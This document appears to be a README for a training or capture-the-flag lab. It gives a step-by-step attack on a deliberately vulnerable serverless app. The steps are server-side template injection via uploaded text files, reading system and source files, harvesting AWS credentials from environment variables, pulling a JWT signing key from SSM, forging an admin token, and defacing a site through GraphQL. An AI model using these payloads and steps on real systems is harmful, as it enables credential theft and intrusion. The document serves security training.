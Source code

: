 # **Serverless Attack**


### *The goal of the attack is to:*

* ##### Gain access to a Serverless function
* ##### Steal meta-data from the said function
* ##### Use the stolen data to compromise AWS service(s)
* ##### Gain access to AWS service(s), steal necessary information
* ##### Deface a [website](https://serverless-defaceme.netlify.com/) using the info

-------

#### Step 1:

* Access the [Serverless-Attack](https://serverless-attack.netlify.com) Application on the browser.

```commandline
https://serverless-attack.netlify.com
```

* Register and Login to the Application

### *Note: The details provided CAN be fake and we highly recommend it!*

-------

#### Step 2:

* Once logged in, copy the value of `token` that can be found in `Session Storage` under the `Storage` section in `developer tools`

* Click on the `File-Upload` icon present in the header

* Click on the `Upload` button and upload the `readme.txt` file. It can be observed that the contents of the file is rendered on the UI

### *Note: It only accepts `.txt` files.*

### *What are the potential attacks based on this functionality???*

-------

#### Step 3:

* Similar to **Step 2**, upload `malicious-file.txt` and observe the output rendered on the UI

-------

#### Step 4:

* Sensitive information like the ones mentioned below can be fetched from the environment variables:

    * `AWS_SESSION_TOKEN`

    * `AWS_SECURITY_TOKEN`

    * `AWS_ACCESS_KEY_ID`

    * `AWS_DEFAULT_REGION`

    * `AWS_SECRET_ACCESS_KEY`


* On the Server provisioned, set the values fetched from the previous step as `Enironment variables`


```bash
export AWS_SESSION_TOKEN=<VALUE-OF-AWS_SESSION_TOKEN>

export AWS_SECURITY_TOKEN=<VALUE-OF-AWS_SECURITY_TOKEN>

export AWS_ACCESS_KEY_ID=<VALUE-OF-AWS_ACCESS_KEY_ID>

export AWS_DEFAULT_REGION=<VALUE-OF-AWS_DEFAULT_REGION>

export AWS_SECRET_ACCESS_KEY=<VALUE-OF-AWS_SECRET_ACCESS_KEY>
```

-------

#### Step 5:

* Similar to **Step 2**, upload `read-etc-pwd.txt` and `read-py-files.txt`.

* By observing the results, we were able to fetch the source-code of application. By further investigation of the source-code, we can see that `auth` is imported.

* Edit `read-py-files.txt` file to fetch source-code of `auth.py` and upload the file

```bash
{{ ''.__class__.__mro__[2].__subclasses__()[40]('auth.py').read() }}
```

* From `auth.py`, it can be observed that `AWS SSM` is being used and `JWT_PASS` is the parameter that needs to be fetched.

-------

#### Step 6:

* Use `awscli` to fetch decrypted `JWT_PASS` from `SSM` 

### *Note: Ensure that `awscli` has been installed and the AWS `environment variables` have been set*

```commandline
aws ssm get-parameters --names "JWT_PASS" --with-decryption
```

* The `Value` fetched in encoded with `base64`. Decode to get the private key.

```commandline
echo "<JWT_PASS value>" | base64 --d > privkey
```

* Using the private key, create a public key using `openssl`

```commandline
openssl rsa -in privkey -pubout -outform PEM -out public.key.pub
```

-------

#### Step 7:

* Access [`jwt.io`](https://jwt.io) on the browser and paste the `JWT Token` fetched in **Step 2**.

* Paste the value of `privkey` and `public.key.pub` under the `Verify Signature` section.

* The `Payload` data can now be tampered with

-------

#### Step 8:

* On a separate tab, access the `DefaceMe` web application.

```commandline
https://serverless-defaceme.netlify.com/
```

* On the browser, select the `Networks` tab that can be found in `developer tools`.

* It can be observed that there's a **`POST`** method being called when the web application is loaded.

* Copy and access the `URL` that the `POST` method is used on

```commandline
https://ctf-gql.we45.dev/graph
```

### *The website is using `GraphQL`*

-------

#### Step 9:

* Paste the `GraphQL` URL on a `REST Client` on your machine.

```commandline
https://ctf-gql.we45.dev/graph
```

### *We'll be using [Insomnia](https://insomnia.rest/)*

* On the `Rest Client`(Insomnia), select the method as **`POST`** and structure as **`GraphQL`**

* `Refresh` the schema and try to perform a `query` leveraging the `Auto Completion` provided by GraphQL.

### *It can be observed that a user has to be authorized to make changes on GraphQL*

-------

#### Step 10:

* On the [`jwt.io`](https://jwt.io) tab, tamper the value of **`isSuperAdmin`** to `true` and copy the `JWT Token`.

```commandline
isSuperAdmin:true
```

-------

#### Step 11:

* Under the `Header` tab on the `REST Client`(Insomnia), add `authorization` and paste the value of the `JWT Token`

* Perform a query to confirm if the token is working.

**EXAMPLE**:

```commandline
query{
  users {
    id
    email
    firstName
    lastName
    walletId
    openingBalance
  }
}
```

-------

#### Step 12:

* Update the mutation to deface the web application

```commandline
mutation{
  createPage(body:"Changed", header:"Defaced", image:"<your favourite gif here>.gif")
  {
    newPage{
      header
      body
      image
    }
  }
}
```

* Access the [`DefaceMe`](https://serverless-defaceme.netlify.com/
) web application to see if the attack was successful.

--------

### Reading Material/References:


